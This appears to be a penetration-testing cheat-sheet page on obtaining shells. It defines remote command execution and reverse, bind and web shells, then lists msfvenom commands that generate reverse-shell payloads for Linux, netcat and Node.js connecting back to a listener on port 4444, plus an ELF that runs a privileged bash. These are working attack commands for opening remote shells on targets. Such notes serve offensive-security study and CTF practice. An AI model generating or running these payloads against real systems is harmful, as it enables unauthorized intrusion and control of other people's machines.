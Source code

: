 # Shell

<div class="row row-cols-md-2"><div>

The best kind of situation of a hacker is when it's possible to run commands on the target, or better, to run code on the target. The hacker will typically exploit a vulnerability <small>(ex: file upload, command injection...)</small> leading to a **RCE**

* Remote Command Execution
* Remote Code Execution
</div><div>

The script leading to a RCE could be a

* a **reverse shell**: we open a port on our machine, and the target connect to it. We can run commands on the target, and hopefully do a successful privilege escalation.
* a **bind shell**: we open a port on the target and connect to it. This is like SSH, but we with a port we picked, and no login/password.
* a **web shell**: we are using a webpage with a form to run commands. It's a bit hard to use, but it may be the only way.
</div></div>

<hr class="sep-both">

## msfvenom

You can use msfvenom to generate all kinds of reverse shells.

<div class="row row-cols-md-2"><div>

* List payloads

```bash
$ msfvenom --list payloads
# payload opening a meterpreter - see metasploit
$ msfvenom --list payloads | grep meterpreter
```

* **Linux**

```bash
# execute /bin/bash -p
$ msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o shell.elf
# Generate a .elf opening a reverse shell (TCP)
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f elf -o shell.elf
# Output a command (R=RAW) opening a reverse shell with netcat
# same as "-f raw" (to check)?
$ msfvenom -p cmd/unix/reverse_netcat LHOST=tun0 LPORT=4444 R
```
</div><div>

* **Node.js**

```bash
# Generate a .js opening a reverse shell (TCP)
$ msfvenom -p nodejs/shell_reverse_tcp LHOST=tun0 LPORT=4444 -o shell.js
```

...
</div></div>